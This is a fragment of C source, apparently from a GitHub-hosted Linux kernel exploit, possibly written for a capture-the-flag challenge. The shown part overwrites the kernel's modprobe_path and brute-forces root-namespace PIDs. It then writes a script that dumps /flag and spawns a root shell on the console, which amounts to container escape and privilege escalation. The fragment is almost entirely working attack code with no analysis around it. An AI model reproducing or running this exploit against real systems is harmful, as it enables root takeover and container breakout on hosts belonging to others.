 ```c
				printf("[*] modprobe_script_fd: %d, status_fd: %d\n", modprobe_script_fd, status_fd);

				int status_cnt;
				for (pid_t pid_guess=0; pid_guess < 65536; pid_guess++)
				{
					char buf;

					// overwrite the `modprobe_path` kernel variable to "/proc/<pid>/fd/<script_fd>"
					// - use /proc/<pid>/* since container path may differ, may not be accessible, et cetera
					// - it must be root namespace PIDs, and can't get the root ns pid from within other namespace
					MEMCPY_HOST_FD_PATH(pud_modprobe_addr, pid_guess, modprobe_script_fd);

					if (pid_guess % 50 == 0)
						printf("[+] setting new modprobe paths (i.e. '%s' @ %p)... matching modprobe_path scan var: '%s' @ %p\n", (char*)pud_modprobe_addr, pud_modprobe_addr, modprobe_path, modprobe_path);
					
					lseek(modprobe_script_fd, 0, SEEK_SET); // overwrite previous entry
					dprintf(modprobe_script_fd, "#!/bin/sh\necho -n 1 > /proc/%u/fd/%u\ncat /flag >/dev/console\n/bin/sh 0</dev/console 1>/dev/console 2>&1\n", pid_guess, status_fd);

					// when pid is correct, run custom modprobe file as root, by triggering it by executing file with unknown binfmt
					modprobe_trigger_memfd();

					// indicates success and stops further bruteforcing
					status_cnt = read(status_fd, &buf, 1);
					if (status_cnt == 0)
						continue;

					printf("[+] successfully breached the mainframe\n");

					// prevents kernel crash due to bad pagemap
					memdump_info->exploit_status = EXPLOIT_STAT_SUCCESS;
					
					sleep(9999);
				}
			}
			
			printf("[*] failed to locate modprobe. trying to find new kernel base...\n");
		}

		printf("[!] failed to find kernel code segment... TLB flush fail?\n");
		memdump_info->exploit_status = EXPLOIT_STAT_FAIL;
		exit(1);
    }
}
```